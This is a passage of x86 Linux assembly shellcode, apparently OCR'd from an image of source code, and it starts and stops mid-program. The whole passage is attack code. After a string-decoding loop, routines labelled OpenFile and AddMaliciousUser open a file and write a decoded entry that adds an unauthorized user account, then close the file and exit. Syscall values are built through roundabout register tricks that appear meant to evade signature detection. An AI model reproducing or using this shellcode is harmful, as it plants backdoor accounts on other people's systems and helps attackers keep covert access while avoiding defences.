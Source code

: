     add edi, 0x4
    loop DecodeStringBytes

OpenFile:

    mov edi, esi

    mov ebx, edi
    add ebx, 0xc

    push ebx
    pop esi

    push edi
    pop ebx

    mov al,0x6
    dec eax

    mov dl, 0x69
    rol edx, 2

    mov cx,0x443
    dec ecx

    int 0x80

AddMaliciousUser:

    xchg ebx,eax
    xor eax, eax

    push eax
    pop edx

    push 0x20
    pop edx
    dec edx

    push 0x3
    pop eax
    inc eax

    push esi
    pop ecx

    int 0x80

CloseFileHandle:

    xor eax, eax
    mov al,0x6
    int 0x80

Exit:

    inc eax
    int 0x80

CallRunShellcode:
